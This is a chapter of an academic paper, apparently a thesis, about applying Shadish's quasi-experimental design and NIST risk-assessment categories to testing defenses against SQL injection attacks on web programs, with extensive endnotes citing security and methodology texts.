\chapter{Towards Experimentation}

\section{Introduction}
\label{intro}
When we get on the Internet, we're accessing programs that are the result of hundreds of hours of work put in by unseen programmers and content contributors worldwide.  The machines we use to access the Internet are also the result of thousands of hours of work by unseen factory laborers, electrical engineers, petroleum refinery workers, plastics and metal manufacturing workers, and even rare-earth miners. Perhaps we take for granted the labor of so many contributors whose cumulative efforts bejewel our gazes at digital screens and flavor the fictions of our imagination's whims. Through the teamwork of international commerce, our civilization has slogged past the brutal acts of extraction and creation and has made a wonderful network of digital technology that serves information to us all on command.  We don't just stand on the shoulders of scientific giants of the past; the head which holds the daydreaming mind is cradled in the hands of our fellow person who has labored to bring us both vital data and idle joys. In places and parts of our lives where we think there is no Internet:  the Internet may be there.  Should we choose to live lives of an off-the grid cash economy:  still, the businesses we interact with would use networks, public and private, to process and share our data.  Many of us don't know how it all works.

Those who don't may live in fear of "The Hacker."  Those of us who do understand programming recognize and respect the dangers, but know there are distinct technological limits to what people can and can't do with machines.  Often, we recognize that the \index{vulnerabilities}vulnerabilities exploited by attackers are really just overlooked or unaddressed unlikely opportunities for problems with data.  One man's disregarded trash of casual, unchecked input assignment is another man's treasured opportunity for \index{exploit}\gls{exploit}.  In this paper we will deal with one of the most common problems associated with undisciplined programming techniques on the web, \index{SQL Injection}SQL Injection.

To understand \index{SQL Injection}SQL Injection's place in the world of web programming, we have to accept some basic descriptions of the programs that make web pages.  There are three common kinds of content in the web programs involved:  static, form-based, and dynamic content.  \index{static content}Static content is content that doesn't change between program runs.  \index{form-based content}Form-based content is content that responds to user interaction with an online form.  \index{dynamic content}Dynamic content is content that changes as a result of program computations.  We often see dynamic content that is based on \index{user input}user input from adjacent programs that were written to handle form-based content.  \endnote{Ullman, Larry. PHP for the Web. Pearson Education, Peachpit Press, fourth edition, 2011. ISBN 978-0-321-73345-29000. A tutorial for learning on PHP is presented, with some small instruction on how code can be injected into the program processing cycle.}

In the mechanics of web programs' carrying data from one program to another, some attackers have been able to find common points of manipulation.  One such area is \index{URL encoding}URL encoding.  In the address bar of our browsers, we can see directory-based information that describes where files are stored.  Also in those URL addresses, we can see an opportunity to carry data from one program to another.  It's in that carrying of data that attackers can seek to inject their own.  Attacks that inject data for the purpose of striking at underlying databases fall into the category of \index{SQL Injection}SQL Injection attacks ("SQLIATK").  \endnote{Tatroe, Kevin and Peter MacIntyre, Rasmus Lerfdorf. Programming PHP. O'Reilly, third edition, 2013. ISBN 978-1-449-39277-2. A general overview of the language is presented in this manual.} \endnote{Regalado, Daniel, et. al. Grey Hat Hacking: The Ethical Hacker's Handbook. pp.385-414. McGraw Hill Education, fourth edition, 2015. ISBN 978-0-183238-0. Regalado's book on hacking is an aggregate of his and other's works. It offers chapters on different flavors of hacking, with variance by system type, target type, and mode of \gls{attack}. The chapters feature many examples and provide a discourse on the common patterns of \gls{attack}.}

\index{SQL Injection}SQL Injection attacks are some of the most common attacks on web programs.  Functions that allow programmers to \index{validate}validate and \index{sanitize}sanitize inputs have been a common defense against these attacks.  Those defenses have been available for a long time through widely circulated, standardized methods that are often official parts of published web languages like \index{PHP}PHP.  \endnote{\_\_\_\_\_. "http://php.net/manual/en/security.database.sql-injection.php" INTERNET. PHP Manua, Security, Database Security. PHP Manual entry on SQL Injection.} Yet, despite the availability of these common and easy-to-use defense mechanisms, \index{SQL Injection}SQL Injection attacks continue to plague the web.  An \index{OWASP}OWASP study of the Top 10 Web Vulnerabilities in 2004 listed "Injection Flaws" as 6/10. A similar listing by \index{OWASP}OWASP in 2013 placed "Injection" at number one.  \endnote{Regalado, Daniel, et. al. Grey Hat Hacking: The Ethical Hacker's Handbook. pp.385-414. McGraw Hill Education, fourth edition, 2015. ISBN 978-0-183238-0. Regalado's book on hacking is an aggregate of his and other's works. It offers chapters on different flavors of hacking, with variance by system type, target type, and mode of \gls{attack}. The chapters feature many examples and provide a discourse on the common patterns of \gls{attack}.} As this report is being written, \index{OWASP}OWASP is considering its Top 10 list for 2017.  "Injection" is still at number one. \endnote{\_\_\_\_\_. "https://owasp.org/index.php/Top\_10\_2013-Top\_10" OWASP, 2017. INTERNET.}  A combination of hasty programming, poor systems design, and lack of review and repairs seem to be the leading causes of promoting these \index{vulnerabilities}vulnerabilities on the web.  Shortly behind, we see the exploiting attacks follow.

By using \index{SQL Injection}SQL Injection, attackers can download, displace or destroy data.  The risk to users, customers, clients, businessess and stakeholders is significant because these \index{vulnerabilities}vulnerabilites are so easy to \gls{exploit} that \index{automated attack tools}automated \gls{attack} tools are publicly available and widely distributed. \endnote{Weidman, Georgia. Penetration Testing: A Hands-On Introduction to Hacking. No Starch Press, 2014. ISBN 978-1-59327-564-8. This book provided strong references and tutorials for common pen-testing methods. While slightly dated, aside from the technological limitations that have arisen after publication, Weidman's book provides another view of a common path in pen-testing, and therefore, hacking, web programs.} \index{SQL Injection}SQL Injection attacks will remain a significant part of information security for the foreseeable future because, like many attacks on \index{data in motion}data in motion or \index{data at rest}data at rest, they are abuses of inherent characteristics.  The same qualities that describe and define stateless transfer of data on the web create the very conditions to make a program susceptible to \index{injection attacks}injection attacks.  Therefore, because URL-encoded data transfers are a normal and legitimate part of web traffic we will continue to see \index{injection attacks}injection attacks occur.

\index{risk assessment}Risk assessments are at the core of any effective information security policy. \endnote{Shelly, Gary B. and Harry J. Rosenblatt. Systems Analysis and Design. Course Technology. PP.570-615. CENGAGE Learning, ninth edition, 2012. ISBN 978-1-133-27405-6.} Without correct \index{threat modeling}\gls{threat} modelling, defining and describing expected methods of attacks, information technology professionals would not be able to mount an effective defense of their networks.  Every day new \gls{attack} tools surface.  It's evident that skilled programmers can craft their own attacks using common programming tools and specialized libraries. \endnote{Weidman, Georgia. Penetration Testing: A Hands-On Introduction to Hacking. No Starch Press, 2014. ISBN 978-1-59327-564-8. This book provided strong references and tutorials for common pen-testing methods. While slightly dated, aside from the technological limitations that have arisen after publication, Weidman's book provides another view of a common path in pen-testing, and therefore, hacking, web programs.} \endnote{Regalado, Daniel, et. al. Grey Hat Hacking: The Ethical Hacker's Handbook. pp.385-414. McGraw Hill Education, fourth edition, 2015. ISBN 978-0-183238-0. Regalado's book on hacking is an aggregate of his and other's works. It offers chapters on different flavors of hacking, with variance by system type, target type, and mode of \gls{attack}. The chapters feature many examples and provide a discourse on the common patterns of \gls{attack}.} \endnote{Seitz, Justin. Black Hat Python: Python Programming for Hackers and Pentesters. No Starch Press, second printing, 2014. ISBN 978-1-59327-590-7. This book is a common reference that provides insight into how short Python scripts can be used to quickly generate original programs that can be used for network attacks. It suggests that skilled attackers do not need to rely on prefabricated tools. Also, the commonailty of function between the programs demonstrated and other common resources shows a unity in capability.} The most dangerous \index{automated attack tools}\gls{attack} tools appear to be the most automated.

I feel that the most automated tools are the most dangerous because they imply a lower level of operator skill required to execute the programs.  This supports a broad user base of attackers.  Some of these programs come with online tutorials, manuals \endnote{\_\_\_\_\_. SCRT Information Security, "https://www.scrt.ch/outils/mms/mms\_manual.pdf" INTERNET.} and demonstrations \endnote{Fresnillo, Rodolfo Resendez. YouTube, "MiniMysqlator \& Pblind", \url{"https://www.youtube.com/watch?v=uK3\_qR3Kn\_g"} YouTube,10AUG2010, INTERNET. This is the link to the video where I first saw MiniMysqlator being used.}.  Downloading the \gls{attack} programs is often no more difficult than downloading any other program on the web. \endnote{\_\_\_\_\_. SCRT Information Security, "https://www.scrt.ch/en/\gls{attack}/downloads/mini-mysqlat0r" INTERNET. This \gls{attack} tool is published on the Internet. I have seen real-world situations in which I believe it was used to \gls{attack} the websites of my commercial clients. I first spotted it in a YouTube video that was recorded as an instructive example by hackers for hackers. I decided to include it in the \gls{attack} suites for the experiment based on my belief that it was an actual \gls{attack} tool used by skiddies and hackers. It is an automated SQL Injection \gls{attack} Tool packaged in Java with a Swing interface.}  At work I have witnessed the effects of these kinds of programs; that is, the heavy use of automated attacks can lead to an availability problem for web programs.  While the individual attacks themselves, hit-by-hit, may be ineffective, the deluge of rapid-fire requests as HTTP calls may still each require a response from the server, albeit dismissive.

Given the great variety of \index{attack tools}\gls{attack} tools available and given the great variety of website structures available, how is a \index{network defender}network defender able to effectively simulate plausible attacks in order to prepare a reasonable defense?  This is a central question of some my recent work commerically and academically.  In my work as a professional web programmer, I have seen a variety of effective and ineffective attacks against my client's sites. I suppose that responses to attacks and preventive \index{attack mitigation}\gls{attack} mitigation techniques seem to be intuitive or instinctive.  Are these responses supported by science?  Do we see effective defense when the effects of previous attacks seem to stop?  When responding to attacks of significant power, can we design and quickly carry out experiments that will prove our chosen \index{defensive techniques}defensive techniques are effective \index{risk controls}risk controls?

My focus for this paper will be upon the relationship between \gls{riskassessment} and experimental design.  My hope is to follow this research with a battery of examples illustrating these experimentation techniques to demonstrate the correlation of these concepts. I am particularly interested in developing a methodology that would provide practical advisement or frameworks for decision making for small-shop programmers and sysadmins who need to be able to rapidly develop, test, and deploy a defense mechanism.

Will it be possible to know, before experimentation begins in earnest, if the experiment can be designed to lead the programmer towards the right kind of answer?  Can this outcome be promoted by choosing certain kinds of experiment types over one another?  For example, can we show that hasty experimental design approaches can have immediate tactical benefit to the defender who must take immediate action?  Can we show that a more deliberate experimental design can promote a stronger defense strategy by describing effective needed changes in security policies?  How can programmers know if the sites they design in experimentation have a reasonable chance of producing the needed outcome to combat specific categories of threats?  In order to be able to reach toward effective answers, we have to begin by knowing that we are asking the right questions through experimental design.



\section{Related Work}

We know that a standardized review of \index{risk assessment}\gls{riskassessment} categories can be found from \index{NIST}\gls{nist}.  Their \index{Cybersecurity Framework}Cybersecurity Framework lists core components functions that include the topics of, "Identify, Protect, Detect, Respond, Recover."  \endnote{\_\_\_\_\_. "Framework for Improving Ciritcal Infrastructure Cybersecurity." \gls{nist}, 2014. This \gls{nist} document provides the summary structure of risk assessments discussed in this report. Most of the document is a large, multi-page chart.}  For this next piece, I would suggest that a direct reference to the \index{risk assessment}\gls{riskassessment} categories in the reference would be helpful.  \index{NIST}\gls{nist} provided a detailed and lengthy chart packed with information.  Below, we briefly consider chart components and points to concepts readily observed in the experiments under consideration.  This next paragraph will likely require a direct comparison to the table \endnote{Ibidem.} to be helpful.

When we consider the possibility of responding to a \index{SQL Injection}SQL Injection \gls{attack} by mitigating with an experimentally proven technique, we can see participation in all of these functions.  I find it helpful to consider them in reverse by supposing participation in a selected category of each function.  To "Recover": "Improvements" would have been agreed upon already, as part of accepting the concept of responsive security maintenance and \index{mitigation}mitigation.  To "Respond" : "\index{mitigation}Mitigation" is directly listed.  To "Detect" : "Security Continuous Monitoring" can be chosen; for example, even though \index{SQL Injection}SQL Injection attacks attempt to strike at the database, they are most likely to be detected by filtering and examining logs of calls made to the website through URLs.  This is why in the "Detect" function we are more likely to choose \index{continuous monitoring}continuous monitoring over "Anomalies and Events."  To "Protect" : "Information Protection Processes \& Procedures" would be chosen because periodic log reviews would be a protection procedure.  Finally, to "Identify" : "\index{risk assessment}\gls{riskassessment}", or the identification, observation and response to risk from \index{SQL Injection}SQL Injection attacks would be chosen.  In this way, we can quickly relate the broader categories of the \index{NIST}\gls{nist} \index{Cybersecurity Framework}Cybersecurity Framework to the immediate actions of mitigating SQLIATK.  This framework is useful to us as a paradigm for devising and implementing a \index{mitigation}mitigation response because it is a widely acknowledged emerging government standard for communicating information security concerns throughout the structure of entities like governments and businesses.\endnote{\_\_\_\_\_. "Framework for Improving Ciritcal Infrastructure Cybersecurity." \gls{nist}, 2014. This \gls{nist} document provides the summary structure of risk assessments discussed in this report. Most of the document is a large, multi-page chart.}\endnote{\_\_\_\_\_. "https://www.nist.gov/news-events/events/2017/03/cybersecurity-framework-virtual-events" \gls{nist}, INTERNET.}

% ==============================================
% Reworking section on Shadish


Given the scope of detail of our studies, and the role Shadish's work plays in them, I felt is was appropriate to concentrate on chapters 1, 4 and 11.

The late William Shadish was an industry leader in describing \index{quasi-natural experiments}quasi-natural experiments. \endnote{Shadish, William. CV, University of California Merced. INTERNET: \url{http://faculty.ucmerced.edu/wshadish/shadish-cv-jan-2015}. Shadish, William. Biographical sketch, University of California Merced. \url{http://faculty.ucmerced.edu/wshadish/biosketch}.} \endnote{\_\_\_\_\_. INTERNET: \url{http://www.ipr.northwestern.edu/workshops/annual-summer-workshops/quasi-experimental-design-and-analysis/} This workshop shows that Shadish's methods are still being studied and implemented. This workshop is one example of coaching other professionals into using quasi-experimental design techniques. It was sponsored by Northwestern University and funded by a grant from the \gls{us} Department of Education.} A recent article by Benjamin Dean shows that Shadish's ideas can be readily applied to evaluating cybersecurity threats \endnote{Kampf, David, ed.; Dean, Benjamin. "Natural and Quasi-Natural Experiments to Evaluate Cybersecurity Policies," Journal of International Affairs. pp.139-160. Winter 2016, Volume 70, Number 1. JIA.SIPA.COLUMBIA.EDU. Columbia University.} \endnote{Ibidem.}. Shadish's work seemed to focus primarily on the social sciences and education \endnote{Shadish, William. CV, University of California Merced. INTERNET: \url{http://faculty.ucmerced.edu/wshadish/shadish-cv-jan-2015}. Shadish, William. Biographical sketch, University of California Merced. \url{http://faculty.ucmerced.edu/wshadish/biosketch}.} \endnote{Shadish, William, Shadish, William R. Jr., Thomas Cook, Laura C. Leviton. Foundations of Program Evaluation: Theories and Practice. pp. 36-67. Sage Publications, First printing, 1991. ISBN 0-08-039355-1. UTC Library Call H 62 .S433 1991. pp. 21-35.}, but the constraints on experiments make his work applicable to establishing good \index{experimental design}experimental design for evaluating information security practices. There is an analogy available because many of the conditions in cyberattacks and social policy affect distinct units (like one person or one machine) with one-time events. Dean's work summarized methods that can be used to relate Shadish's \index{experimental design}experimental design guidance to larger situations involving policy changes. \endnote{Kampf, David, ed.; Dean, Benjamin. "Natural and Quasi-Natural Experiments to Evaluate Cybersecurity Policies," Journal of International Affairs. pp.139-160. Winter 2016, Volume 70, Number 1. JIA.SIPA.COLUMBIA.EDU. Columbia University.}

To accept the point made by Dean \endnote{Ibidem.} that we should use \index{quasi-natural experiments}quasi-natural experimentation because common, reproducable scientific experimentation methods may be too difficult or too complex for the contemporary network security environment: we could look for a counterpoint by turning to examples of effective scientific \index{experimental design}experiment design like those described by Virgil Anderson. \endnote{Anderson, Virgil and Robert McLean. Design of Experiments: A Realistic Approach. pp. 79-93. Purdue University, University of Tennessee. Marcel Dekker, Inc., New York, 1974. ISBN 0-8247-7493-0. UTC Library Call QA 279 .A53 This book shows the more rigid, traditional model of experimental design. It's presented as a reference in contrast to the main theme of quasi-experimentation that is our focus in this study.} He thoroughly described experiments based on \index{random control trials}random control trials. Dean asserted, as we'll see, that, "To date, \index{randomized controlled trials}randomized controlled trials have not been proposed, much less attempted, for cybersecurity policies. \endnote{Kampf, David, ed.; Dean, Benjamin. "Natural and Quasi-Natural Experiments to Evaluate Cybersecurity Policies," Journal of International Affairs. pp.139-160. Winter 2016, Volume 70, Number 1. JIA.SIPA.COLUMBIA.EDU. Columbia University.}" Meanwhile, "The gold standard for research design to evaluate policies is the \index{randomized controlled trials}randomized controlled trial. \endnote{Ibidem.}(p. 147)" As we discuss later, we'll see that \index{randomized controlled trials}randomized controlled trials are much more expensive in design and execution while being poorly suited to responding to the real-world conditions of cyberattacks. Instead, \index{quasi-natural experiments}quasi-natural experiments are favored.

To accept the chart outlined by Dean \endnote{Kampf, David, ed.; Dean, Benjamin. "Natural and Quasi-Natural Experiments to Evaluate Cybersecurity Policies," Journal of International Affairs. pp.139-160. Winter 2016, Volume 70, Number 1. JIA.SIPA.COLUMBIA.EDU. Columbia University.} that would describe some quasi-natural experimentation methods and expected outcomes, we would need to better understand Dean's underlying authority: Shadish. Shadish described some characteristics of program evaluation. It should be noted that Shadish wasn't writing about computer programs themselves; instead, Shadish was writing about social programs and policies. It was in that sense that Dean was able to apply Shadish's assertions to cybersecurity policies for nation-states. We, too, can adapt Shadish's advice on the relationship between quasi-natural experimentation and policy (i.e. "social program" \endnote{Shadish, William R. Jr., Thomas Cook, Laura C. Leviton. Foundations of Program Evaluation: Theories and Practice. pp. 36-67. Sage Publications, First printing, 1991. ISBN 0-08-039355-1. UTC Library Call H 62 .S433 1991.}) in our quest for better rapidly developed network defenses.

Shadish asserted in his article on "Multiplist Perspective" that quasi-natural experimentation would benefit from critical multiplist perspectives. What this means is that if multiple experiments are conducted with variations in subtask performance, then we can gain the benefit of uncovering how bias might have affected our experiments. Shadish was asserting that if we conducted every part of the experiment exactly the same way every time, then our bias in choosing experimental frameworks would remain hidden. By accepting the prejudice of a too-rigid experimentation model, then we might face the danger of rigorously hiding the detrimental effects of our own prejudices. \endnote{Lipsey, Mark, ed.; Trochim, William, ed.; Shadish, William R., Thomas D. Cook, Arthur C. Houts. "Quasi-Experimentation in a Critical Multiplist Mode," Advances in Quasi-Experimental Design and Analysis, New Directions for Program Evaluation. pp.29-46. Cornell University, Claremont Graduate School, American Evaluation Association, 1986.}

In order to better understand the framework that Shadish's perspective can provide, I would like to summarize some of his assertions from his book on Quasi-Experimental Designs \endnote{Shadish, William, et al. Experimental and Quasi-Experimental Designs for Generalized Causal Inference. Wadsworth, CENGAGE Learning, 2002. ISBN 978-0-395-61556-0. Shadish's work extensively influenced this paper. Shadish, who died in 2016, served as a professor at the University of Memphis and the University of California Merced. He studied and published on experimental design for most of his career. Shadish's work was directed primarily at the fields of psychology and education; but, his analysis of experimentation was so thorough that most of his descriptions and advice can be directed towards computer science. Since the structure of experimenting with cyber-\gls{attack} situations are similar to the structure of the study of social problems, most of his work directly translates into today's \gls{attack}-and-defense practices for information security. I first came across Shadish's work in Benjamin Dean's article. Shadish's writing served as a strong influence on my research into these topics.}. Accepting his terms for describing concepts related to experimentation is an important part of linking Dean's methods to experimental validity. If we are to practically apply these assertions to real-world problems and solutions, then it pays to take some time to understand and accept the terms and their nuanced suggestions for our ideas.

Shadish's book contains several chapters that are important to fortifying the idea that quasi-natural experimentation is a good foundation for making scientific assertions.  The entire text is a detailed and systematic defense of quasi-natural experimentation.  Of the chapters, some are more pertinent to our arguments; we'll look at those.

Chapter 1 covered the general concept of quasi-natural experimentation in the broader scheme of scientific development.  In it, Shadish described how experiments can describe cause; he showed how experiments have evolved over time; he described contemporary experiment types; he provided a summary of different kinds of validity.  These works help us to understand that quasi-natural experimentation is a legitimate scientific method that fits inside the broader canon of past scientific achievement.

Chapter 2 covered a detailed examination of the concepts of internal validity.  Here we can see the foundation for assertions of "right" and "wrong" that can be drawn from experimental conclusions.  Shadish wrote about what validity is; also, he covered how statistical examinations can be used to examine observational data and draw conclusions from it.

Chapter 3 covered a detailed examination of the concepts of external validity.  This described some of the problems of projecting or applying experimental results outside of the experiment itself.  Shadish showed how problems could arise by broadening, narrowing, or otherwise scaling the results to fit real-world conditions of another size or scope.

In Chapter 4, "Quasi-Experimental Designs That Either Lack a Control Group or Lack Pretest Observations on the Outcome" we can find guidance that might be helpful in situations where an \gls{attack} is discovered by surprise.  That is, if we had a system whose state we knew or could prove before an \gls{attack}, then we could understand how subsequent experimentation might succeed or fail.  I think this chapter could be insightful because so many attacks require situational defense without proper laboratory preparation.

In Chapter 11, "Generalized Causal Inference:  A Grounded Theory" we have a chance at grasping Shadish's summary justification for using quasi-natural experimentation.  This chapter discussed how principles of theory can support quasi-natural experimentation.  Since this chapter followed previous defenses, it offers a chance to see the guidance in and of itself, as an assertion, without the burden of point-by-point defense.

Shadish attributed "the experiment" we accept today as the work of Fisher. \endnote{Shadish, William, Shadish, William, et al. Experimental and Quasi-Experimental Designs for Generalized Causal Inference. Wadsworth, CENGAGE Learning, 2002. ISBN 978-0-395-61556-0., pp. 2-3: "But when scientists started to use experiments in areas such as public health or education, in which extraneous influences are harder to control ... they found that the controls used in natural science in the laboratory worked poorly in these new applications. So they developed new methods of dealing with extraneous influence, such as random assignment (Fisher, 1925) or adding a nonrandomized control group (Coover \& Angell, 1907). As theoretical and observational experience accumulated across these settings and topics, more sources of bias were identified and more methods were developed to cope with them (Dehue, 2000)."}
 To Fisher and his contemporaries, we ascribe the concepts of random assignment and a nonrandomized control group. Random assignment and nonrandomized control groups were as important to experimentation as laboratory glassware was to Chemistry. Assignment and control brought certain features to the thought behind experiments. Shadish wrote, "... the key feature ... is still to deliberately vary something so as to discover what happens to something else later. \endnote{Shadish, William, Shadish, William, et al. Experimental and Quasi-Experimental Designs for Generalized Causal Inference. Wadsworth, CENGAGE Learning, 2002. ISBN 978-0-395-61556-0., p. 3 : "Today, the key feature common to all experiments is still to deliberately vary something so as to discover what happens to something else later--to discover the effects of the presumed causes."}"

Shadish discussed the influence of Locke, Mackie and Hume on the concepts of cause and effect; he discussed the influence of Rubin and John Stuart Mill on causal relationships. Locke's definitions were, "A cause is that which makes any other thing, either simple idea, substance, or mode, begin to be; and an effect is that, which had its beginning from some other thing. \endnote{Shadish, William, Shadish, William, et al. Experimental and Quasi-Experimental Designs for Generalized Causal Inference. Wadsworth, CENGAGE Learning, 2002. ISBN 978-0-395-61556-0., p. 4: "John Locke said: ... 'A cause is that which makes any other thing, either simple idea, substance, or mode, begin to be; and an effect is that, which had its beginning from some other thing' (p. 325)."}" When describing Mackie's work on causes, Shadish told us about Mackie's "inus condition -- 'an insufficient but non-redundant part of an unnecessary but sufficient condition.' \endnote{Shadish, William, Shadish, William, et al. Experimental and Quasi-Experimental Designs for Generalized Causal Inference. Wadsworth, CENGAGE Learning, 2002. ISBN 978-0-395-61556-0., p. 4: "A lighted match is, therefore, what Mackie (1974) called an inus condition-- 'an insufficient but non-redundant part of an unnecessary but sufficient condition' (p.62) ... It is part of a sufficient condition to start a fire in combination with the full constellation of factors."}" The inus condition is significant to us in these explorations about SQL Injection Attacks on complex networked systems because practical experience shows us that so many smaller, contributing factors play a role but cannot be so strongly described as the cause themselves. Shadish likened these to the lighted match which starts the forest fire. "It is part of a sufficient condition," he wrote, " ... in combination with the full constellation of factors. \endnote{Ibidem.}" Inus conditions may also need a relationship to a larger set of conditions. Shadish wrote in one example, "... was an inus condition. It was insufficient cause by itself, and its effectiveness required it to be embedded in a larger set of conditions that were not even fully understood by the original investigators. Most causes are more accurately called inus conditions. \endnote{Shadish, William, Shadish, William, et al. Experimental and Quasi-Experimental Designs for Generalized Causal Inference. Wadsworth, CENGAGE Learning, 2002. ISBN 978-0-395-61556-0., p. 5: "Endostatin was an inus condition. It was insufficient cause by itself, and its effectiveness required it to be embedded in a larger set of conditions that were not even fully understood by original investigators."}" I felt that this was particularly close to some practical conclusions that I've seen drawn about cause and effect in computer security problems. That is, we may say that a certain \gls{attack} causes some specified damage, but the \gls{attack} code is surrounded by many supporting inus conditions that are an assumed and often ignored part of the problem. The file structure of the attacked program might be one such example. The many \gls{configuration} details of a web server or database might be others. Many attacks require a very specific set of conditions to be present in order for an \gls{attack} to succeed. These conditions would be the inus conditions in some of our problems. Shadish went on to warn that, "causal relationships ... are not deterministic but only increase the probability that an effect will occur... To different degrees, all causal relationships are context dependent.\endnote{Shadish, William, Shadish, William, et al. Experimental and Quasi-Experimental Designs for Generalized Causal Inference. Wadsworth, CENGAGE Learning, 2002. ISBN 978-0-395-61556-0., p. 5: "Most causes are more accurately called inus conditions. ... This is one reason that the causal relationships we discuss in this book are not deterministic but only increase in probability that an effect will occur (Eells, 1991; Holland, 1994)."}" Shadish went on to outline Hume's influence over effect by pointing out that, "An effect is the difference between what did happen and what would have happened.\endnote{Shadish, William, Shadish, William, et al. Experimental and Quasi-Experimental Designs for Generalized Causal Inference. Wadsworth, CENGAGE Learning, 2002. ISBN 978-0-395-61556-0., p. 5: "An effect is the difference between what did happen and what would have happened."}" Counterfactual conditions ("A counterfactual is something that is contrary to fact," e.g.\endnote{Shadish, William, Shadish, William, et al. Experimental and Quasi-Experimental Designs for Generalized Causal Inference. Wadsworth, CENGAGE Learning, 2002. ISBN 978-0-395-61556-0., p. 5: "A counterfactual is something that is contrary to fact."}) were noted in Shadish's discussion of Rubin's Causal Model and its influence over our understanding of case-control studies. He concluded his discussions on cause and effect definitions with John Stuart Mill's, " ... a causal relationship exists if (1) the cause preceded the effect, (2) the cause was related to the effect, and (3) we can find no plausible alternative explanation for the effect other than the cause. \endnote{Shadish, William, Shadish, William, et al. Experimental and Quasi-Experimental Designs for Generalized Causal Inference. Wadsworth, CENGAGE Learning, 2002. ISBN 978-0-395-61556-0., p. 6: "How do we know if cause and effect are related? In a classic analysis formalized by the 19th-centure philosopher John Stuart Mill, a causal relationship exists if (1) the cause preceded the effect, (2) the cause was related to the effect, and (3) we can find no plausible alternative explanation for the effect other than the cause."}"

In these terms Shadish described, we can begin to see the details of contention about the validity of experiments that could prove the strengthening of a system through patching or modification. Take Mill's third point, above, for example. How often do we presume that an \gls{attack} was the cause of damage because we did not discover another cause? Assuming the correct identification of a cause by admitting that there are no other explanations can lead to dangerous omissions when human deceit is a factor. For example, I remember one Forensic Anthropology professor describe to me that during criminal investigations it was common for bodies to be discovered hidden beneath something else that was buried, like refuse or a dead animal. In cases where deception can provide an attacker defense by confounding an investigation, there might be a secondary planting of evidence, a secondary \gls{attack} with code, or another confounding mechanism that might cause us to prematurely conclude that we've correctly identified an \gls{attack}. Since correct contamination identification is a strong predicate for implementing effective countermeasures, our incorrect assumptions can provoke an early quit to an investigation that might actually prolong or promote an \gls{attack} by causing us to emplace the wrong corrections. When installing defensive measures in reaction to damage from an \gls{attack}, we can imagine how simple assumptions of cause and effect can create worsening complexities.

Shadish also discussed the old saw, "Correlation does not prove causation," and confounds. In discussing manipulatable and nonmanipulatable causes, he pointed out, "Experiments explore the effects of things that can be manipulated ... Nonmanipulatable events or attributes cannot be causes in experiments because we cannot deliberately vary them to see what then happens. \endnote{Shadish, William, Shadish, William, et al. Experimental and Quasi-Experimental Designs for Generalized Causal Inference. Wadsworth, CENGAGE Learning, 2002. ISBN 978-0-395-61556-0., p. 7: "Experiments explore the effects of things that can be manipulated. ... Nonmanipulable events ... or attributes ... cannot be causes in experiments because we cannot deliberately vary them to see what happens. Consequently, most scientists and philosophers agree that it is much harder to discover the effects of nonmanipulable causes."}" I would suggest that this one-off nature of reality, when observing an \gls{attack} against a website, goes to show that we witness nonmanipulatable events. During the one event that is an \gls{attack}, the specifics of the \gls{attack} are normally beyond our control; they are nonmaniuplatable events. However, Shadish does suggest support for the action of simulating an \gls{attack} to explore its cause, effect and causal relationships because he wrote, "analogue experiments can sometimes be done on nonmanipulatable causes, that is, experiments that manipulate an agent that is similar to the cause of interest \endnote{Ibidem.}(p. 7)" In that, I would suggest, is justification for continuing with an experiment to simulate a SQL Injection \gls{attack}, its detection, its defense, and its recovery.

Before he continues to tell us about what kind of experiment might be at hand, Shadish covered causal description and causal explantion. These discussions of "the whole" or "the part" of cause as "molar" or "molecular" causal conditions offered important insight into instances when we might need to guard against projecting results into wider conclusions \endnote{Shadish, William, Shadish, William, et al. Experimental and Quasi-Experimental Designs for Generalized Causal Inference. Wadsworth, CENGAGE Learning, 2002. ISBN 978-0-395-61556-0., p. 10: "These examples also show the close parallel between descriptive and explanatory causation and molar and molecular causation.\textsuperscript{4 }... 4. By molar, we mean something taken as a whole rather than in parts. An analogy is to physics, in which molar might refer to the properties or motions of masses, as distinguished from those of molecules or atoms that make up those masses."}. However, they also offer us an opportunity to make some important distinguishments among what types of experiments might be at hand. I assert that, depending on the behavior of the programmer at the time: the scientific interactions might be in different forms of experiments. We might have a "natural experiment" at the moment of \gls{attack}. We might have a "correlational design, passive observational design, and nonexperimental design" \endnote{Ibidem.}(p. 18) in various stages of logging, discovery, or normal business and machine operations related to the \gls{attack} event. This might be of relevance later, as quasi-experimental results are applied to patching activities and improving risk assessments by applying risk controls: it will be critical to maintain correct context in order to understand why attacks succeed and why people and machines might fail or succeed in responding to those attacks.

Shadish wrote, "In the end, then, causal descriptions and causal explanations are in delicate balance in experiments. What experiments do best is to improve causal descriptions; they do less well at explaining causal relationships. \endnote{Shadish, William, Shadish, William, et al. Experimental and Quasi-Experimental Designs for Generalized Causal Inference. Wadsworth, CENGAGE Learning, 2002. ISBN 978-0-395-61556-0., p. 12: "In the end, then, causal descriptions and causal explanations are in delicate balance in experiments. What experiments do best is to improve causal descriptions; they do less well at explaining causal relationships."}" Causal description, he stated, is about the consequences of varying treatment in an experiment. "The practical importance of causal explanation is brought home when [a treatment] ... fails to solve the problem. Explanatory knowledge then offers clues about how to fix the problem.\endnote{Shadish, William, Shadish, William, et al. Experimental and Quasi-Experimental Designs for Generalized Causal Inference. Wadsworth, CENGAGE Learning, 2002. ISBN 978-0-395-61556-0., p. 10: "The practical importance of causal explanation is brought home when ... (another easily learned manipulation) fails to solve the problem. Explanatory knowledge then offers clues about how to fix the problem ..."}" These descriptions of different segments of considering cause can help us understand why sometimes we leap to a conclusion about why a treatment might be a good choice. The explanatory knowledge he refers to may be, in our cases as programmers facing SQLIATK, an overall understanding of how these attacks work. Without a personal library of understanding how to defend against these attacks, suggestions that programmers present fortified programs are not readily realizable suggestions for improvement. How can we improve this broad explanatory knowledge that helps us recognize clues? Through training and experience, and also through experimentation.

Although we have already mentioned that the types of experiments we are interested in are "quasi-experiments," I would like to review some of the established terms for describing experiments. Also I would like to suggest why quasi-experiments will have validity as the preferred design for this type of situation (i.e., a desire to test SQLIATK mechanisms) even though there are many pitfalls for fallability and error that might not be present in a traditional randomized experiment. From Shadish, we can take these summary terms:

"Experiment: a study in which an intervention is deliberately introduced to observe its effects. \endnote{Shadish, William, Shadish, William, et al. Experimental and Quasi-Experimental Designs for Generalized Causal Inference. Wadsworth, CENGAGE Learning, 2002. ISBN 978-0-395-61556-0., p. 12.}"

"Randomized Experiment: An experiment in which units are assigned to receive the treatment or an alternative condition by a random process ... \endnote{Ibidem.}"

